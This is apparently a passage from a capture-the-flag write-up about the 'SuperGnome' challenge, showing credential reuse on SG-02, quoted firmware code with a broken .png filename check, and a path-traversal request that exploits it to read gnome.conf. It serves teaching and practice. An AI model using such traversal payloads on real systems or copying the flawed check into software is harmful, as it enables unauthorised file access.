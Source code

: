 Vulnerability: Password Re-use<br />
Gnome Serial Number: **NCC1701** = [https://en.wikipedia.org/wiki/USS\_Enterprise\_\(NCC-1701\)]

### SG-02

I logged into SuperGnome-02 (52.34.3.80) with the same credentials, but when I tried
to download the files was presented with an error specifying "Downloading disabled
by Super-Gnome administrator."

I quickly identified a section in <code>/settings</code> that was not available on SG-01 containing an upload function. This could be the attack vector we need, let's consult the firmware to identify any vulnerabilities:

{% codeblock index.js %}        
// CAMERA VIEWER
// STUART: Note: to limit disclosure issues, this code checks to make sure the user asked for a .png file
 router.get('/cam', function(req, res, next) {
 var camera = unescape(req.query.camera);
 // check for .png
 //if (camera.indexOf('.png') == -1) // STUART: Removing this...I think this is a better solution... right?
      camera = camera + '.png'; // add .png if its not found
      console.log("Cam:" + camera);
      fs.access('./public/images/' + camera, fs.F_OK | fs.R_OK, function(e) {
        if (e) {
            res.end('File ./public/images/' + camera + ' does not exist or access denied!');
          }
        });
        fs.readFile('./public/images/' + camera, function (e, data) {
          res.end(data);
     });
  });
{% endcodeblock %}

The code above was located in <code>/www/routes/index.js</code>. It appears that .png anywhere in the filename will satisfy the check.

I successfully uploaded a directory named "foo.png/".

        Dir /gnome/www/public/upload/UdmXdYtu/foo.png/ created successfully!
        Insufficient space! File creation error!

Then, I leveraged the LFI (local file inclusion) vulnerability to grab the gnome.conf.

        http://52.34.3.80/cam?camera=../upload/UdmXdYtu/foo.png/../../../../../www/files/gnome.conf

SG-02 gnome.conf:

        Gnome Serial Number: **XKCD988**
        Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
        Allow new subordinates?: YES
        Camera monitoring?: YES
        Audio monitoring?: YES
        Camera update rate: 60min
        Gnome mode: SuperGnome
        Gnome name: SG-02
        Allow file uploads?: YES
        Allowed file formats: .png
        Allowed file size: 512kb
        Files directory: /gnome/www/files/
